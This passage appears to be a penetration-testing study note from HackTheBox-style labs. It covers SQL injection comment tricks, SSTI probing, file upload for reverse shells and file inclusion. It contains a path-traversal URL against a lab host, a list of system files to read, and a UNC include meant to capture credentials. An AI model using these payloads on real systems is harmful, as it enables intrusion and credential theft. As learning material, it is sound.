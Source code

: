 Pay attention when breaking the rest of the query with comments. The standard comment `--` might not always work, it's worth trying another kind of comments like `#`. Also, you might want to URL encode the escaping characters.

SQL injections reference: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet

### Server side template injection (SSTI)

if you see a search form and you type something and you see the output of what you typed again in the webpage, the webpage might be susceptible for SSTI. Try to identify which template engine and search how to exploit it.

If the target is using a templating engine, it is possible to use the template injection to execute commands in the server.

One easy way to test that is to put something like \{\{7*7}} in the template and check for the result.

If the template executes, we'll see the result, out of luck we will see nothing. Or maybe we'll see some trace that reveals the technology behind.

### Arbitrary file upload

This is a very interesting vulnerability. It lets the attacker upload some file to the server. You can do this to start a reverse shell. That is the targeted machine establish a permanent connection to the attacker machine and it provides a shell where the attacker can run commands as if it was inside the machine.

### File inclusion (LFI,RFI)

Some pages include other pages in order to improve re-usability, e.g. header and footer. If this is not configured properly, an attacker can use the include functionality to read local files.

```
http://unika.htb/index.php?page=../../../../../../../../../../windows/system32/drivers/etc/hosts
```

You can try to read the following files for Linux:

- /etc/hosts
- /etc/passwd


and for Windows:

- C:/Windows/System32/drivers/etc/hosts
- c:/windows/win.ini

Depending on the inclusion it might lead to Remote File Inclusion, which is execute remote files.

This can be used for example to force the target make a call to a compromised host in the same network and capture the credentials challenge:

```
http://unika.htb/index.php?page=\\10.1.2.3\blabla\
```

### Reverse shell <a name="reverse-shell"></a>
